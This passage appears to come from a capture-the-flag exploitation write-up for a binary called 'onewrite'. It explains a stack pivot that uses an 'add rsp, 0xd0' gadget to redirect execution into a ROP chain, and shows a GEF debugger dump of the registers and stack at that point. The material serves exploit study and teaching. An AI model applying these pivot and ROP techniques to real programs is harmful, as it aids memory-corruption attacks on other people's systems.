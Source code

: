 ```
```

So how our stack pivot will work, we will add a value to the `rsp` register, which will shift where it returns. We will just shift it up so it starts executing our rop chain, which we can store further up the stack. To find the exact offset, we can just see where the stack pivot will pivot us to, and just store the rop chain at that offset. We can see how our gadget shifts it:

First we add `0xd0` to the `rsp`:
```
Breakpoint 1, 0x00007f3bdb37d6f3 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x8               
$rbx   : 0x1               
$rcx   : 0x0               
$rdx   : 0x8               
$rsp   : 0x00007ffd5f925f68  →  0x0000000000000001
$rbp   : 0x00007f3bdb61afb0  →  0x00007f3bdb3759c3  →   sub rsp, 0x18
$rsi   : 0x00007ffd5f925f60  →  0x00007f3bdb37d6f3  →   add rsp, 0xd0
$rdi   : 0x0               
$rip   : 0x00007f3bdb37d6f3  →   add rsp, 0xd0
$r8    : 0x00007f3bdd24e880  →  0x00007f3bdd24e880  →  [loop detected]
$r9    : 0x0               
$r10   : 0x00007f3bdb3fb840  →   add BYTE PTR [rax], al
$r11   : 0x0000000000000246
$r12   : 0x00007f3bdb61e140  →  0x00007f3bdb6208c0  →  0x0000000000000000
$r13   : 0x1               
$r14   : 0x00007f3bdb6208c0  →  0x0000000000000000
$r15   : 0x1               
$eflags: [zero carry PARITY ADJUST sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007ffd5f925f68│+0x0000: 0x0000000000000001   ← $rsp
0x00007ffd5f925f70│+0x0008: 0x0000000000000001
0x00007ffd5f925f78│+0x0010: 0x0000000000000008
0x00007ffd5f925f80│+0x0018: 0x0000000000000000
0x00007ffd5f925f88│+0x0020: 0xd4842db0baa9bc00
0x00007ffd5f925f90│+0x0028: 0x00007f3bdb375060  →   sub rsp, 0x8
0x00007ffd5f925f98│+0x0030: 0x00007f3bdb376090  →   cmp ebx, 0x68747541
0x00007ffd5f925fa0│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
   0x7f3bdb37d6e6                  xor    rcx, QWORD PTR fs:0x28
   0x7f3bdb37d6ef                  mov    eax, edx
   0x7f3bdb37d6f1                  jne    0x7f3bdb37d6fc
 → 0x7f3bdb37d6f3                  add    rsp, 0xd0
   0x7f3bdb37d6fa                  pop    rbx
   0x7f3bdb37d6fb                  ret    
   0x7f3bdb37d6fc                  call   0x7f3bdb3b55d0
   0x7f3bdb37d701                  nop    DWORD PTR [rax+rax*1+0x0]
   0x7f3bdb37d706                  nop    WORD PTR cs:[rax+rax*1+0x0]
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "onewrite", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x7f3bdb37d6f3 → add rsp, 0xd0
────────────────────────────────────────────────────────────────────────────────
gef➤  p $rsp
$1 = (void *) 0x7ffd5f925f68
```

